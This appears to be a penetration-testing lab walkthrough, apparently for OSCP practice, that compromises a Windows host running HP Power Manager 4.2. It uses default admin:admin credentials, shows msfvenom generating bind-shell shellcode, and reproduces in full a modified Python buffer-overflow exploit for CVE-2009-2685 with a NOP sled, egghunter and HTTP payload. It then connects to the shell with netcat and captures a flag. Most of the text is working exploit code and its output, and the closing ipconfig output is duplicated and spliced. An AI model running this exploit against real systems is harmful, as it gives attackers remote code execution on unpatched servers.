





HP Power Manager

# Login
The default login as google searched is
admin:admin

admin seems to be the only user

# HP Power Manager 4.2 (Build 7)


# Look at log files, we see that a very long username was used to stop the server


Here was the username used to stop the server:
adminAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�ÐKManagement

# Google search


# There are a few vulnerabilities for HP Power Manager 4.2.7


# Download the exploit 10099



# Generate msfvenom bind shell
┌──(kali㉿kali)-[~/GitWorkspace/oscpPrep/scans/192.168.235.45]
└─$ msfvenom -p windows/shell_bind_tcp rhost=192.168.49.235 lport=4444 -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with Failed to locate a valid permutation.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 352 (iteration=0)
x86/call4_dword_xor chosen with final size 352
Payload size: 352 bytes
Final size of c file: 1504 bytes
unsigned char buf[] = 
"\x29\xc9\x83\xe9\xae\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x88\xb8\x92\x92\x83\xee\xfc\xe2\xf4\x74\x50\x10\x92\x88\xb8"
"\xf2\x1b\x6d\x89\x52\xf6\x03\xe8\xa2\x19\xda\xb4\x19\xc0\x9c"
"\x33\xe0\xba\x87\x0f\xd8\xb4\xb9\x47\x3e\xae\xe9\xc4\x90\xbe"
"\xa8\x79\x5d\x9f\x89\x7f\x70\x60\xda\xef\x19\xc0\x98\x33\xd8"
"\xae\x03\xf4\x83\xea\x6b\xf0\x93\x43\xd9\x33\xcb\xb2\x89\x6b"
"\x19\xdb\x90\x5b\xa8\xdb\x03\x8c\x19\x93\x5e\x89\x6d\x3e\x49"
"\x77\x9f\x93\x4f\x80\x72\xe7\x7e\xbb\xef\x6a\xb3\xc5\xb6\xe7"
"\x6c\xe0\x19\xca\xac\xb9\x41\xf4\x03\xb4\xd9\x19\xd0\xa4\x93"
"\x41\x03\xbc\x19\x93\x58\x31\xd6\xb6\xac\xe3\xc9\xf3\xd1\xe2"
"\xc3\x6d\x68\xe7\xcd\xc8\x03\xaa\x79\x1f\xd5\xd0\xa1\xa0\x88"
"\xb8\xfa\xe5\xfb\x8a\xcd\xc6\xe0\xf4\xe5\xb4\x8f\x47\x47\x2a"
"\x18\xb9\x92\x92\xa1\x7c\xc6\xc2\xe0\x91\x12\xf9\x88\x47\x47"
"\xf8\x80\xe1\xc2\x70\x75\xf8\xc2\xd2\xd8\xd0\x78\x9d\x57\x58"
"\x6d\x47\x1f\xd0\x90\x92\x99\xe4\x1b\x74\xe2\xa8\xc4\xc5\xe0"
"\x7a\x49\xa5\xef\x47\x47\xc5\xe0\x0f\x7b\xaa\x77\x47\x47\xc5"
"\xe0\xcc\x7e\xa9\x69\x47\x47\xc5\x1f\xd0\xe7\xfc\xc5\xd9\x6d"
"\x47\xe0\xdb\xff\xf6\x88\x31\x71\xc5\xdf\xef\xa3\x64\xe2\xaa"
"\xcb\xc4\x6a\x45\xf4\x55\xcc\x9c\xae\x93\x89\x35\xd6\xb6\x98"
"\x7e\x92\xd6\xdc\xe8\xc4\xc4\xde\xfe\xc4\xdc\xde\xee\xc1\xc4"
"\xe0\xc1\x5e\xad\x0e\x47\x47\x1b\x68\xf6\xc4\xd4\x77\x88\xfa"
"\x9a\x0f\xa5\xf2\x6d\x5d\x03\x62\x27\x2a\xee\xfa\x34\x1d\x05"
"\x0f\x6d\x5d\x84\x94\xee\x82\x38\x69\x72\xfd\xbd\x29\xd5\x9b"
"\xca\xfd\xf8\x88\xeb\x6d\x47";

# Modify the original exploit to use the above bind shellcode.
Remember that this is a buffer exploit, so to make 709 bytes I used some NOP code padding (357 bytes).

```python

┌──(kali㉿kali)-[~/GitWorkspace/oscpPrep/scans/192.168.235.45/ss]
└─$ cat bind_exploit.py                                                                                                                         
#!/usr/bin/python
# HP Power Manager Administration Universal Buffer Overflow Exploit
# CVE 2009-2685
# Tested on Win2k3 Ent SP2 English, Win XP Sp2 English
# Matteo Memelli ryujin __A-T__ offensive-security.com
# www.offensive-security.com
# Spaghetti & Pwnsauce - 07/11/2009
#
# ryujin@bt:~$ ./hppowermanager.py 172.16.30.203
# HP Power Manager Administration Universal Buffer Overflow Exploit
# ryujin __A-T__ offensive-security.com
# [+] Sending evil buffer...
# HTTP/1.0 200 OK
# [+] Done!
# [*] Check your shell at 172.16.30.203:4444 , can take up to 1 min to spawn your shell
# ryujin@bt:~$ nc -v 172.16.30.203 4444
# 172.16.30.203: inverse host lookup failed: Unknown server error : Connection timed out
# (UNKNOWN) [172.16.30.203] 4444 (?) open
# Microsoft Windows [Version 5.2.3790]
# (C) Copyright 1985-2003 Microsoft Corp.

# C:\WINDOWS\system32>

import sys
from socket import *

print "HP Power Manager Administration Universal Buffer Overflow Exploit"
print "ryujin __A-T__ offensive-security.com"

try:
   HOST  = sys.argv[1]
except IndexError:
   print "Usage: %s HOST" % sys.argv[0]
   sys.exit()

PORT  = 80
RET   = "\xCF\xBC\x08\x76" # 7608BCCF JMP ESP MSVCP60.dll

# [*] Using Msf::Encoder::PexAlphaNum with final size of 709 bytes
# badchar = "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a"
SHELL = (
"n00bn00b"
"\x29\xc9\x83\xe9\xae\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x88\xb8\x92\x92\x83\xee\xfc\xe2\xf4\x74\x50\x10\x92\x88\xb8"
"\xf2\x1b\x6d\x89\x52\xf6\x03\xe8\xa2\x19\xda\xb4\x19\xc0\x9c"
"\x33\xe0\xba\x87\x0f\xd8\xb4\xb9\x47\x3e\xae\xe9\xc4\x90\xbe"
"\xa8\x79\x5d\x9f\x89\x7f\x70\x60\xda\xef\x19\xc0\x98\x33\xd8"
"\xae\x03\xf4\x83\xea\x6b\xf0\x93\x43\xd9\x33\xcb\xb2\x89\x6b"
"\x19\xdb\x90\x5b\xa8\xdb\x03\x8c\x19\x93\x5e\x89\x6d\x3e\x49"
"\x77\x9f\x93\x4f\x80\x72\xe7\x7e\xbb\xef\x6a\xb3\xc5\xb6\xe7"
"\x6c\xe0\x19\xca\xac\xb9\x41\xf4\x03\xb4\xd9\x19\xd0\xa4\x93"
"\x41\x03\xbc\x19\x93\x58\x31\xd6\xb6\xac\xe3\xc9\xf3\xd1\xe2"
"\xc3\x6d\x68\xe7\xcd\xc8\x03\xaa\x79\x1f\xd5\xd0\xa1\xa0\x88"
"\xb8\xfa\xe5\xfb\x8a\xcd\xc6\xe0\xf4\xe5\xb4\x8f\x47\x47\x2a"
"\x18\xb9\x92\x92\xa1\x7c\xc6\xc2\xe0\x91\x12\xf9\x88\x47\x47"
"\xf8\x80\xe1\xc2\x70\x75\xf8\xc2\xd2\xd8\xd0\x78\x9d\x57\x58"
"\x6d\x47\x1f\xd0\x90\x92\x99\xe4\x1b\x74\xe2\xa8\xc4\xc5\xe0"
"\x7a\x49\xa5\xef\x47\x47\xc5\xe0\x0f\x7b\xaa\x77\x47\x47\xc5"
"\xe0\xcc\x7e\xa9\x69\x47\x47\xc5\x1f\xd0\xe7\xfc\xc5\xd9\x6d"
"\x47\xe0\xdb\xff\xf6\x88\x31\x71\xc5\xdf\xef\xa3\x64\xe2\xaa"
"\xcb\xc4\x6a\x45\xf4\x55\xcc\x9c\xae\x93\x89\x35\xd6\xb6\x98"
"\x7e\x92\xd6\xdc\xe8\xc4\xc4\xde\xfe\xc4\xdc\xde\xee\xc1\xc4"
"\xe0\xc1\x5e\xad\x0e\x47\x47\x1b\x68\xf6\xc4\xd4\x77\x88\xfa"
"\x9a\x0f\xa5\xf2\x6d\x5d\x03\x62\x27\x2a\xee\xfa\x34\x1d\x05"
"\x0f\x6d\x5d\x84\x94\xee\x82\x38\x69\x72\xfd\xbd\x29\xd5\x9b"
"\xca\xfd\xf8\x88\xeb\x6d\x47\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90")

EH ='\x33\xD2\x90\x90\x90\x42\x52\x6a'
EH +='\x02\x58\xcd\x2e\x3c\x05\x5a\x74'
EH +='\xf4\xb8\x6e\x30\x30\x62\x8b\xfa'
EH +='\xaf\x75\xea\xaf\x75\xe7\xff\xe7'

evil =  "POST http://%s/goform/formLogin HTTP/1.1\r\n"
evil += "Host: %s\r\n"
evil += "User-Agent: %s\r\n"
evil += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
evil += "Accept-Language: en-us,en;q=0.5\r\n"
evil += "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\n"
evil += "Keep-Alive: 300\r\n"
evil += "Proxy-Connection: keep-alive\r\n"
evil += "Referer: http://%s/index.asp\r\n"
evil += "Content-Type: application/x-www-form-urlencoded\r\n"
evil += "Content-Length: 678\r\n\r\n"
evil += "HtmlOnly=true&Password=admin&loginButton=Submit+Login&Login=admin"
evil += "\x41"*256 + RET + "\x90"*32 + EH + "\x42"*287 + "\x0d\x0a"
evil = evil % (HOST,HOST,SHELL,HOST)

s = socket(AF_INET, SOCK_STREAM)
s.connect((HOST, PORT))
print '[+] Sending evil buffer...'
s.send(evil)
print s.recv(1024)
print "[+] Done!"
print "[*] Check your shell at %s:4444 , can take up to 1 min to spawn your shell" % HOST
s.close()
```

# Open a netcat connection, it could take up to one minute
nc -nv 192.168.235.45 4444


# Proof 
c:\Users\Administrator\Desktop>more proof.txt
more proof.txt
2ae5fe136bdbccf4f6848e839eb7a418

# ipconfig
c:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::190:7095:39ab:394%15
   IPv4 Address. . . . . . . . . . . : 192.168.235.45
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.235.254

Tunnel adapter Reusable ISATAP Interface {AD5249E3-105D-452D-AF94-6E3E29548657}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Mediac:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::190:7095:39ab:394%15
   IPv4 Address. . . . . . . . . . . : 192.168.235.45
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.235.254

Tunnel adapter Reusable ISATAP Interface {AD5249E3-105D-452D-AF94-6E3E29548657}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
